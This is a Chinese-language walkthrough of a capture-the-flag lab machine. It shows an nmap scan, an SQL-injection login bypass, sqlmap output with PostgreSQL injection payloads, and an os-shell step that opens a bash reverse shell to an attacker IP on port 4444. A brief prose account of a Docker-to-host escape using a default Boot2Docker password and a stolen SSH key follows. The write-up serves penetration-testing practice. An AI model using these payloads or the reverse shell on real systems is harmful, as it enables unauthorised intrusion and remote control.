

## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace/toolbox]
└─$ sudo nmap -sT -sCV -O -p21,22,135,139,443,445,47001,49664,49665,49666,49668,49669 10.10.10.236    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-21 04:09 EDT
Nmap scan report for 10.10.10.236
Host is up (0.31s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
|   256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
|_  256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56
|_Not valid after:  2021-02-17T17:45:56
| tls-alpn: 
|_  http/1.1
|_http-title: MegaLogistics
445/tcp   open  microsoft-ds?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10|2012|2022|11|Vista|Longhorn|XP|2016|7 (94%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_7:::ultimate
Aggressive OS guesses: Microsoft Windows Server 2019 (94%), Microsoft Windows 10 1709 - 1803 (91%), Microsoft Windows 10 1709 - 1909 (91%), Microsoft Windows 10 1809 - 2004 (91%), Microsoft Windows 10 1703 (90%), Microsoft Windows Server 2012 (90%), Windows Server 2022 (90%), Microsoft Windows 10 2004 (90%), Microsoft Windows 11 21H2 (90%), Microsoft Windows Vista SP1 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -8m06s
| smb2-time: 
|   date: 2024-07-21T08:02:52
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 203.16 seconds

```

## web渗透
通过上面的namp扫描证书结果`admin.megalogistic.com`绑定host后来到admin登录界面
输入闭合语句

发现了sql报错
输入用户名：1' or 1=1--+
成功登录
--os-shell拿shell
```bash
┌──(kali㉿kali)-[~/workspace/toolbox]
└─$ sudo sqlmap -r sql.txt --batch --force-ssl --os-shell --no-cast
        ___
       __H__                                                                                                                                                                                 
 ___ ___[.]_____ ___ ___  {1.7.10#stable}                                                                                                                                                    
|_ -| . [(]     | .'| . |                                                                                                                                                                    
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 05:09:03 /2024-07-21/

[05:09:03] [INFO] parsing HTTP request from 'sql.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[05:09:03] [INFO] resuming back-end DBMS 'postgresql' 
[05:09:03] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: username=1' AND (SELECT (CASE WHEN (9713=9713) THEN NULL ELSE CAST((CHR(78)||CHR(74)||CHR(70)||CHR(114)) AS NUMERIC) END)) IS NULL-- zZRT&password=12

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: username=1' AND 7753=CAST((CHR(113)||CHR(118)||CHR(98)||CHR(118)||CHR(113))||(SELECT (CASE WHEN (7753=7753) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(98)||CHR(122)||CHR(107)||CHR(113)) AS NUMERIC)-- Ljhv&password=12

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: username=1';SELECT PG_SLEEP(5)--&password=12

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind (comment)
    Payload: username=1' AND 6015=(SELECT 6015 FROM PG_SLEEP(5))--&password=12
---
[05:09:04] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Debian 10 (buster)
web application technology: PHP 7.3.14, Apache 2.4.38
back-end DBMS: PostgreSQL
[05:09:04] [INFO] fingerprinting the back-end DBMS operating system
[05:09:05] [INFO] the back-end DBMS operating system is Linux
[05:09:05] [INFO] testing if current user is DBA
[05:09:07] [INFO] retrieved: '1'
[05:09:08] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[05:09:08] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.16.15/4444 0>&1'
do you want to retrieve the command standard output? [Y/n/a] Y

```


## 提权
这是一个docker容器查看现在shell的ip环境

ip地址是172.17.0.2
那么docker host机器在172.17.0.1

这里有个默认密码，怎么来的也不清楚，反正是Boot2Docker
ssh连一下就可以登录

在这个shell下查看宿主机的文件

看到有ssh文件
那么拿下来直接连
